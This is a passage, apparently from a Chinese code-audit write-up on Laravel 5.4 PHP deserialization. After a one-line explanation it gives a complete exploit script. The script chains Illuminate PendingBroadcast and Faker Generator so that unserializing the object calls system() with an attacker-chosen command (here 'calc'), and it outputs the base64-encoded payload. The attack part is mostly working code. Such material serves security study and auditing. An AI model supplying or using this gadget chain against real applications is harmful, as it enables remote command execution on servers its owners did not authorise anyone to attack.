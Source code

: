 > 由于 `getFormatter()` 方法中的 `$this->formatters[$formatter]` 是可控的并直接 return 回上一层，因此可以利用该可控参数来进行命令执行 RCE 操作

### exp
```php
<?php
namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;
        function __construct($events="", $event="") {
            $this->events = $events;
            $this->event = $event;
        }
    }
}

namespace Faker {
    class Generator {
        protected $formatters = array();
        function __construct($func="") {
            $this->formatters = ['dispatch' => $func];
        }
    }
}

namespace {
    $demo1 =  new Faker\Generator("system");
    $demo2 = new Illuminate\Broadcasting\PendingBroadcast($demo1, "calc");
    echo base64_encode(serialize($demo2));
}
?>
```

<img src="./Laravel5.4 反序列化代码审计/poc-1-3.png" alt="">
